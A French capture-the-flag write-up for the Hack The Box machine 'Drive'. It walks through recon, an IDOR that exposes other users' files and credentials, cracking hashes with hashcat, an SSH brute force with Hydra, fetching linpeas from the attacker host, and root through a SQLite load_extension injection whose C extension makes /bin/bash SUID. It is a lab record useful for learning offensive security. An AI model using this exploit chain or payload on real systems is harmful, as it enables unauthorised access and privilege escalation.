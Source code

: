   # Drive

	echo "10.10.11.235 drive.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.235 -e tun0 > ports.txt
	sudo nmap -p- -T4 -A 10.10.11.235 -oN nmap.txt
	feroxbuster --silent -u http://drive.htb/
	
Scans classiques.

    PORT     STATE    SERVICE VERSION
    22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 27:5a:9f:db:91:c3:16:e5:7d:a6:0d:6d:cb:6b:bd:4a (RSA)
    |   256 9d:07:6b:c8:47:28:0d:f2:9f:81:f2:b8:c3:a6:78:53 (ECDSA)
    |_  256 1d:30:34:9f:79:73:69:bd:f6:67:f3:34:3c:1f:f9:4e (ED25519)
    80/tcp   open     http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://drive.htb/
    3000/tcp filtered ppp


Pages : 

    + http://drive.htb/contact (CODE:301|SIZE:0)                                                                       
    + http://drive.htb/favicon.ico (CODE:200|SIZE:2348)                                                                
    + http://drive.htb/home (CODE:301|SIZE:0)                                                                          
    + http://drive.htb/login (CODE:301|SIZE:0)                                                                         
    + http://drive.htb/logout (CODE:301|SIZE:0)                                                                        
    + http://drive.htb/register (CODE:301|SIZE:0)                                                                      
    + http://drive.htb/reports (CODE:301|SIZE:0)                                                                       
    + http://drive.htb/subscribe (CODE:301|SIZE:0)                                                                     
    + http://drive.htb/upload (CODE:301|SIZE:0)                                                                        
    + http://drive.htb/upload_file (CODE:302|SIZE:0)                                                                   
    + http://drive.htb/upload_files (CODE:302|SIZE:0)                                                                  
    + http://drive.htb/uploaded (CODE:302|SIZE:0)                                                                      
    + http://drive.htb/uploadedfiles (CODE:302|SIZE:0)                                                                 
    + http://drive.htb/uploadedimages (CODE:302|SIZE:0)                                                                
    + http://drive.htb/uploader (CODE:302|SIZE:0)                                                                      
    + http://drive.htb/uploadfile (CODE:302|SIZE:0)                                                                    
    + http://drive.htb/uploadfiles (CODE:302|SIZE:0)                                                                   
    + http://drive.htb/uploads (CODE:302|SIZE:0) 
    

On a la possibilité de s'inscrire sur le site.

C'est un genre de service de stockage de fichiers.

L'URL d'un fichier contient un ID. Exemple : http://drive.htb/100/getFileDetail/ 


En passant cette URL à Burp Intruder et en modifiant l'ID de 1 à 999, on obtient des erreurs 401 en plus des pages en 200 auxquelles on a déjà accès. Les fichiers 79, 98, 99, 101 et 112 renvoient cette erreur.

Impossible de visualiser les fichiers directement mais les autres fonctions semblent marcher, notamment celle du blocage. En construisant une URL de type http://drive.htb/79/block on arrive à réserver, et voir, le fichier.

Quelques résultats intéressants : 

- Le fichier 79 contient un nom et un mot de passe
- Le fichier 101 contient des informations sur une base de données compressée et stockée dans /var/www/backups/ 
- Le fichier 112 contient un reverse-shell en PHP



Le SSH sur la machine fonctionne, avec les credentials trouvés dans le fichier 79. Cependant, il n'y pas de flag utilisateur.

	ssh martin@10.10.11.235

## Pivoting

	sudo -l
	find / -perm /4000 2>/dev/null

    wget http://10.10.16.60/linpeas.sh
    chmod u+x linpeas.sh
    ./linpeas.sh | tee linpeas.txt

Rien d'intéressant avec l'énumération classique.

Toutefois, en fouillant le répertoire mentionné dans le fichier 101, on trouve un fichier **db.sqlite3** en plus des fameuses sauvegardes compressées et bien protégées par mot de passe : 

    ls /var/www/backups
    ...
    scp martin@drive.htb:/var/www/backups/db.sqlite3 ~/dump/
    sqlitebrowser ~/dump/db.sqlite3 
    
Dans la table "accounts_customuser" on trouve plusieurs hashes dont un cassable : 

    vim hashes.txt
    hashid -m hashes.txt
    hashcat -m 124 -a 0 hashes.txt ~/wordlists/rockyou.txt
    
On obtient le mot de passe pour Tom mais il ne fonctionne pas pour le SSH. Comme il était très faible j'ai lancé un Hydra sur des variantes en tâche de fond au cas où : 

    grep "^john.*[0-9]$" rockyou.txt --text > ~/john.txt
    hydra -l tom -P ~/john.txt 10.10.11.235 -t 64 ssh 
    
Le bruteforce a fonctionné, donnant accès au compte de Tom :  

    su tom 
    cat ~/user.txt

## Élévation de privilèges


    sudo -l
	find / -perm /4000 2>/dev/null
    
On trouve un fichier intéressant avec SUID : 

>/home/tom/doodleGrive-cli


Quand on exécute ce fichier, il demande juste un nom et un mot de passe. J'ai réussi à les trouver facilement avec un peu d'énumération classique pour les binaires : 

    ./doodleGrive-cli
    strings doodleGrive-cli
    
En lisant plus profondément ce résultat on voit aussi quelques requêtes qui semblent correspondre aux différentes options du menu principal après l'authentification : 

>/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'UPDATE >accounts_customuser SET is_active=1 WHERE username="%s";'
><br>Activating account for user '%s'...
><br>/usr/bin/sudo -u www-data /usr/bin/tail -1000 /var/log/nginx/access.log


Voir : 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---load_extension 

- https://www.sqlite.org/c3ref/load_extension.html


Code de l'extension : 

    #include <stdlib.h>
    #include <unistd.h>
    void sqlite3_a_init() {
        setuid(0);
        setgid(0);
        system("chmod 4777 /bin/bash");
    }

Compilation : 

    gcc -shared extension_sqlite_bash_suid.c -o a.so -nostartfiles -fPIC

Payload à injecter dans l'exécutable quand il nous demande le nom du compte à activer : 

    "+load_extension(char(46,47,97))+"
    
Exécution finale : 

    ./doodleGrive-cli
    ...
    /bin/bash -p 
	whoami
	cat /root/root.txt
